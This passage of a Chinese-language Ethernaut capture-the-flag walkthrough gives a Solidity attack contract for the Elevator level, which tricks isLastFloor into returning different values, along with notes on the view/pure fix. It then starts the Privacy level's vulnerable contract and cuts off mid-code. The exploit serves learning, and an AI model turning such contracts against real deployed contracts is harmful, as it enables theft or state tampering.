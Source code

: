 根据要求应该是让我们把 top 设置为 true, 非常简单，构建 Building 即可。


### 攻击
```solidity
contract Hack{
    Elevator private immutable target;
    uint count = 0;
    constructor(address _target){
        target = Elevator(_target);
    }

    function attack() public {
        target.goTo(1);
    }

    function isLastFloor(uint256) external returns(bool){
        count ++;
        return count > 1;
    }
}
```

### 笔记
你可以在接口使用 `view` 函数修改器来防止状态被篡改。`pure` 修改器也可以防止状态被篡改. 认真阅读 [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) 并学习注意事项.

完成这一关的另一个方法是构建一个 view 函数, 这个函数根据不同的输入数据返回不同的结果, 但是不更改状态, 比如 `gasleft()`。

### 总结


## Privacy

![](https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg)

### 要求

这个合约的制作者非常小心的保护了敏感区域的 storage.

解开这个合约来完成这一关.

**这些可能有帮助:**
- 理解 storage 的原理
- 理解 parameter parsing 的原理
- 理解 casting 的原理


### 代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

```